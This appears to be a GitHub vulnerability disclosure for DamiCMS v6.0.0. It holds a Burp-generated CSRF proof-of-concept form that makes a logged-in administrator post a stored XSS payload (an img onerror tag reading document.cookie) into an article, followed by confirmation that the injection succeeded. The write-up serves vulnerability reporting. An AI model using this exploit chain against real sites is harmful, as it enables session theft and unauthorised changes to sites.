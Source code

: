 Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

After the administrator login in,open the poc
poc：


```html<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://172.16.100.28/damicms-master/admin.php?s=/Article/doedit" method="POST">
      <input type="hidden" name="title" value="æµ&#139;è&#175;&#149;äº&#167;å&#147;&#129;&lt;img&#32;src&#61;&quot;x&quot;&#32;onerror&#61;alert&#40;document&#46;cookie&#41;&#32;&gt;" />
      <input type="hidden" name="TitleFontColor" value="" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="å&#158;&#139;å&#143;&#183;&#58;&#32;ä&#187;&#183;æ&#160;&#188;ï&#188;&#154;é&#157;&#162;è&#174;&#174;&#32;é&#162;&#156;è&#137;&#178;&#58;" />
      <input type="hidden" name="hits" value="69" />
      <input type="hidden" name="typeid" value="24" />
      <input type="hidden" name="imgurl" value="&#47;Public&#47;Uploads&#47;thumb&#47;thumb&#95;1393207060&#46;jpg" />
      <input type="hidden" name="isimg" value="1" />
      <input type="hidden" name="content" value="androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;span&#32;style&#61;&quot;white&#45;space&#58;normal&#59;&quot;&gt;androidå&#188;&#128;å&#143;&#145;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;&lt;&#47;span&gt;" />
      <input type="hidden" name="price" value="4000" />
      <input type="hidden" name="color" value="ç&#129;&#176;è&#137;&#178;" />
      <input type="hidden" name="product&#95;xinghao" value="M002457J" />
      <input type="hidden" name="submit" value="ä&#191;&#174;æ&#148;&#185;" />
      <input type="hidden" name="aid" value="66" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

damicms-master/admin.php?s=/Index/index
Successfully inserted <img src="x" onerror=alert(document.cookie)>


![描述](https://github.com/wind-cyber/DamiCMS-v6.0.0-have-csrf-and-xss-Vulnerabilities-/blob/master/rpng/ZS4DTJV2YV%5DB6QRAEP0%25FH8.png)


